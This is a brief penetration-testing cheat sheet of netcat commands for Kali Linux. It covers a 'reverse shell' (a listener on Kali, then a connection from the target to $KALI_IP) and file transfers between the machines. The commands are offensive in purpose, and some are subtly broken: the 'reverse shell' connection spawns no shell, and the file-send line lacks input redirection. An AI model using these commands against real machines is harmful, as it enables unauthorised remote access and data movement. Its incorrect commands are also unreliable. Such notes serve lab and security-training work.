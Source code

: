 ## Netcat
*These commands assume that the `nc` or `nc.exe` binary is installed on both Kali and target machines*

### Netcat Reverse Shell
1. Listen on Kali machine: 
```bash
nc -nvlp $PORT
```

2. Connect from target machine: 
```bash
nc -nv $KALI_IP $PORT
```

### Netcat File Transfers
1. Listen for file on target machine:
```bash
nc -nvlp $PORT > $FILENAME
```

2. Send file from Kali machine:
```bash
nc -nv $TARGET_IP $PORT /path/to/file
```
